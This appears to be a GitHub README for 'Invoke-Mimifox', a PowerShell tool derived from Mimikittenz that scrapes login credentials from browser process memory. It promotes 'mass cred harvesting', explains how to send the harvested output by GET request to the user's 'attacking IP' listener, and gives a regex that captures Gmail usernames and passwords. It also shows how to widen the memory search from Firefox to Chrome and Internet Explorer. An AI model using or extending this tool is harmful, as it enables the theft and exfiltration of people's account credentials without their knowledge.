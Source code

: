 # Invoke-Mimifox
    ./Invoke-Mimifox.ps1 invoke-mimifox
The year is 2020 and alas no longer Mimikittenz works well or progressively on any machines in a real work environment. Mimifox is a little bit more future friendly, a couple of edits to the original code and an added OOB exfiltration option makes life a little easier for mass cred harvesting and blind PS attacks.

## Out Of Bounds Exfil
Just set a listener running on port 80 and be sure to change the IP addresses in the source code to your attacking IP. Basically just forces a get request with the standard out of the programme and appends `/?<all of your goodness>`. Tail the logs and viola!

## Adding Custom Regexes & Processes
    [mimikittenz.MemProcInspector]::AddRegex("Gmail","identifierInput=.([A-Za-z0-9$&+,:;=?@#|'<>.^*() %!\-]+)&password=.([A-Za-z0-9$&+,:;=?@#|'<>.^*() %!\-]+)")
Use something like Burp or tamperdata to gather the parameters passed when logging into a certain application and pass them in this format within the source. Currently only grabs Gmail and Github creds but the possiblities are..  _**Endless**_

The currently searched processes are defined within:

    $matchesFound=[mimikittenz.MemProcInspector]::InspectManyProcs("firefox")

You can change this to incorpate more cote-du-jour browsers or processes of choice:

    $matchesFound=[mimikittenz.MemProcInspector]::InspectManyProcs("firefox","chrome","iexplore","meincraft")

